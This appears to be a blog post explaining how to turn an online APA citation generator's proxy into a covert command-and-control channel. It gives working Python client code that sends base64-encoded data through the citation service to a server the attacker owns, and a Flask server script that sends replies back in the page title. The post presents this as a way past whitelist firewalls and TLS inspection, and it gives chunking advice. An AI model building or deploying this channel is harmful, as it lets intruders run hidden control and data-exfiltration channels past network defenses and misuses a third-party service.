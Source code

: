 ```yaml
---
layout: page
title: Citation generator C2
---
```

By abusing [APA citation generators](https://www.scribbr.com/citation/generator/apa/), we are able to send requests to any server we own, which allows for bidirectional communication. Note that this C2 method still requires you to own a server, and is vulnerable to legal takedowns, but it is extremely effective in bypassing firewalls, including whitelist-based ones. Essentially, it would work on any network where you can access [this](https://www.scribbr.com/citation/generator/apa/) site.
## How it works
> Cite a webpage, book, article, and more

Visiting the website, you will realize that you can cite webpages. If you inspect the network traffic, you see that they send a request to your site of choice **through a proxy**. This, in terms of C2, is like striking gold. Now, you might be wondering, why would anyone send your requests through a proxy, when the request can just be made from the machine of the person trying to cite the page? The answer is simple - [CSRF](https://en.wikipedia.org/wiki/Cross-site_request_forgery#Client-side_safeguards). As most browsers block cross-origin requests except to sites that specifically allow it (which is a very small minority), pretty much all requests made by a client to arbitrary sites would be blocked by this. As such, they are forced to send a request to their own proxy servers, which then forwards it to your webserver of choice. The server then returns the title of the webpage you requested, which is meant to be used in a citation.
## Abusing this for C2
Inspecting the network traffic, we are able to recreate the requests needed to simulate a citation generation. As such, we can piece together this code:
```py
import requests, json, base64
text = """Lorem ipsum dolor sit amet, consectetur adipiscing elit."""
def query(text):
    json_data = {
        'query': 'http://[your server]/cite?data='+base64.b64encode(text.encode()).decode().split("=")[0],
        'type': 'query',
        'requestedSourceType': 'journal-article',
        'orderBy': 'relevance',
    }

    resp = requests.post('https://autocite.cgs.scribbr.com/autocite', json=json_data).json()
    if "error" in resp:
        return resp["error"]
    response = requests.get('https://autocite.cgs.scribbr.com/autocite/'+resp["requestId"])
    out = base64.b64decode(json.loads(response.text.split("\n")[1].split("data: ")[1])["sources"][0]["data"]["title"].encode()).decode()
    return out
print(query(text))
```
We work with everything using base64 encoding, to prevent special characters from messing up communications. As we know that the citation proxy only returns a title, we will also need a custom server script to allow for bidirectional communication. We can do so using Flask:
```py
from flask import request, Flask
app = Flask(__name__)
import requests
from requests.structures import CaseInsensitiveDict
import base64

@app.route("/cite" , methods=['GET'])
def citation():
    data = request.args['data']
    b= "<head><title>"+base64.b64encode(base64.b64decode(data.encode("ascii")+b"==")+b" [MODIFIED]").decode()+"</title></head><body>Lorem ipsum dolor sit amet</body>"
    print(base64.b64decode(data.encode("ascii")+b"==").decode())
    return b
    
if __name__ == "__main__":
	from waitress import serve
	serve(app, host="0.0.0.0", port=1337)
```
The client-side code  is also simple enough to translate into any language of your choice, such as C. Using a simple polling cycle, effective C2 can be established, along with fully bidirectional communications.
## Limits
We noted that due to the base64 encoding, a maximum of approximately 730 characters could be transmitted at once. As such, we recommend chunking long messages into blocks of 500 characters to ensure no data is lost or truncated. We also note that there is 2 network requests required to establish bidirectional communication, something which could result in greater network overhead and more latency. We have also not verified if any ratelimits are present that may affect communications.

In conclusion, this is a very robust method that can evade very strict firewalls. This method also stands out as it does not abuse domain fronting, allowing it to bypass TLS inspections too. However, due to the high network overhead and potential for rate limiting, as well as easy mitigation (by simply using CAPTCHAs), we feel that this should only be used as a last resort C2 for the strictest firewalls, where all other communication methods fail.

Code also available [here](https://github.com/lemond69/citation-c2/)
